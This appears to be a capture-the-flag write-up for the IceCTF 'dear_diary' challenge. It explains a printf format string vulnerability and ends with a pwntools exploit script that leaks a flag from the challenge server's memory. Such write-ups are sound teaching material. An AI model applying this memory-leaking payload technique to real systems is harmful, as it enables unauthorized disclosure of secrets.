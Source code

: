 dear_diary
==========

> We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. `nc diary.vuln.icec.tf 6501`

The binary has a pretty straightforward menu-based interface that lets you create objects and print them. We might be looking for a heap-based vulnerability here:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: ok!

1. add entry
2. print latest entry
3. quit
> 2
ok!

1. add entry
2. print latest entry
3. quit
> 3
brian@katahdin:dear_diary$
```

However, the binary doesn't like it if if any of our "entries" contain `n`'s:

```
brian@katahdin:dear_diary$ ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: no way!
rude!
brian@katahdin:dear_diary$
```

The object allocation turned out to be stack-based, not heap-based, so no use after free here. I spent waaay too much time looking for some kind of overflow, but everything was buttoned up tight. Then I found it, staring me in the face:

![IDA screenshot of format string vulnerability](format string vulnerability.png)

In case you can't read that, `printf` is being called with a single, user-controlled argument. This explains why the binary exits if any of our secrets contain the letter `n` - it's sanitizing the input against the `printf` `%n` specifier that can lead to arbitrary code execution!

That's okay though, because we don't need the `%n` specifier here anyway. The binary reads `flag.txt` into memory on startup and stores it's address near the top of `main`'s stack frame (well, actually, the bottom, since the stack grows down). Since the vulnerable `printf` call is in a stack frame directly below `main`, we can get it to read past all the crap we don't care about with a bunch of `%x`'s, and then read the flag out with `%s`. I don't think we even used the debugger to find the right number of `%x`'s; we just kept adding more 'til it worked:

```
#!/usr/bin/env python2

from pwn import *
remote_host='diary.vuln.icec.tf'
remote_port=6501
context(arch='i386',os='linux')

def pwn():
  print "Beginning pwn!"
  address = p32(0x0804a0a0) # literally leave the memory address '0804a0a0'
  payload = "%x"*17+"%s" # clear 17 4-byte words and then the string at the 4
byte pointer
  child.recvuntil('>') # wait for prompt
  child.sendline('1') # choose new entry
  child.sendline(address)
  child.recvuntil('>')
  child.sendline('1')
  child.sendline(payload)
  child.recvuntil('>')
  child.sendline('2')
  print(child.recv())


child = remote(remote_host,remote_port)
pwn()
child.interactive()
```
